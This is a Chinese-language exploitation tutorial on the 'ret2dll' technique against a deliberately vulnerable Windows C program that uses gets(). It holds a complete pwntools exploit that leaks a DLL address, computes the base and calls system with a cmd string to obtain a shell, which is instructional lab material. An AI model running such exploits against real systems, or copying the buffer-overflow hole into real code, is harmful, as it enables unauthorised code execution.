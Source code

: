 # ret2dll利用

原理与linux下的ret2libc类似，不过需要手动提取地址，目前pwntools不能提取exe文件地址。
源代码如下
```
#include <stdio.h>
#include <ctype.h>
#define DEFAULT_LEN 16
int val(){
        char buff[DEFAULT_LEN] = {0};
        gets(buff);
}
int main(void)
{
        puts("start");
        fflush(stdout);
        val();
        fflush(stdout);
        puts("end");
        fflush(stdout);
}
```
使用gcc(MinGW-W64 x86_64-ucrt-posix-seh)在windows下编译

`gcc "-Wl,--disable-reloc" -g -o ret2dll.exe ret2dll.c`


## 搭建临时环境

使用ncat  `ncat -l 8080 --keep-open --exec ".\ret2dll.exe"`

使用win_server  `win_server ./ret2dll.exe 8080`

exp如下
```python
from pwn import *

context.log_level='debug'
context.arch='amd64'
p=remote("192.168.0.190",8080)#这里替换为windows的ip
main_addr=0x14000155B#手动输入地址
ret_addr=0x1400015D7
puts_plt=0x140002868
puts_got=0x14000829C
rdi_addr=0x140002447
rcx_addr=0x140002750
#bp 0x140001554


payload  = b'a' * (0x10 +8)
payload += p64(rcx_addr)
payload += p64(puts_got)
payload += p64(puts_plt)

payload += p64(main_addr)
p.recvuntil("start")
p.sendline(payload)
puts_leak=u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b'\x00'))

print("leak addr:",hex(puts_leak))

puts_dll=0x11014E470
cmd_dll=0x0110179E48
sytem_dll=0x0110117E50

dll_base=puts_leak-puts_dll
# dll_base=0x7ffe71e00000
print("base addr:",hex(dll_base))

cmd_addr = dll_base +cmd_dll
system_addr=dll_base+sytem_dll
print("start attck")
payload  = b'a' * (0x10 + 8)
payload += p64(ret_addr)
payload += p64(rcx_addr)
payload += p64(cmd_addr)
payload += p64(system_addr)

p.sendline(payload)
p.interactive()
```

效果如下

![ret2dll](./figure/ret2dll-1.png)

